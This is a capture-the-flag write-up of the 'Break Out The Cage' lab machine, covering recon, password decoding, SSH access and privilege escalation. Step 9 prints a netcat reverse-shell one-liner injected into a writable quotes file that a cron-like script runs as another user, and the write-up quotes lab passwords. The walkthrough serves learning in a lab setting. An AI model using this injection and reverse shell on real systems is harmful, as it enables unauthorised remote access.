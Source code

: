 # Break Out The Cage

Fun, because Cage is fun :)

## Recon

1. nmap revealed 21, 22 and 80
2. nikto and dirb on the website revealed a few listable folders, including `/scripts` and `/contracts`, which contained nothing (movie contracts in the first instance)
3. ftp allowed anonymous, and contained a single file `dad_tasks`
4. This file was base 64 encoded, and then looked vignere encoded. I broke the latter with https://www.guballa.de/vigenere-solver which revealed the password `namelesstwo`
5. This gave a list of humourous tasks, and what I guessed successfully was the ssh password: `Mydadisghostrideraintthatcoolnocausehesonfirejokes`
6. From the website I knew this user's name was `weston` and so I successfully logged in with that user.

## Shell as Weston

6. Once on the machine, `sudo -l` revealed the user could run `/usr/bin/bees`. This is a shell script that just runs the `wall` command. However, the wall command is not something I can delete or move, by the looks of it.

7. Navigating to the website directory, I found an `/auditions` folder containing an MP3 that obviously contained a spectogram. However, when I ran it through Sonic Visualiser it just gave me the password to the vignere encoding from before :D

8. The other user on the machine was `cage`, so I ran a `find / -user cage 2>/dev/null` and found a folder called `.dad_scripts` under `/opt`. While on the machine I had noticed periodic wall broadcasts, and in here I found a python script running wall against a randomly selected quote from `/opt/.dad_scripts/.files/.quotes`, as `cage`. And the .quotes file was writable :)

9. I overwrote .quotes with the following and waited:

    echo ";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.226.229 4444 >/tmp/f" > .quotes

## Reverse Shell as Cage

10. Once the shell popped, I navigated to `/home/cage`. In there was a file, `Super_Duper_Checklist` which contained the **user flag**.

11. There was also an `email_backup` directory. Under there were three rather humorous emails, where Cage's agent is revealed to be the root user. There was also a hint to the password, `haiinspsyanileph`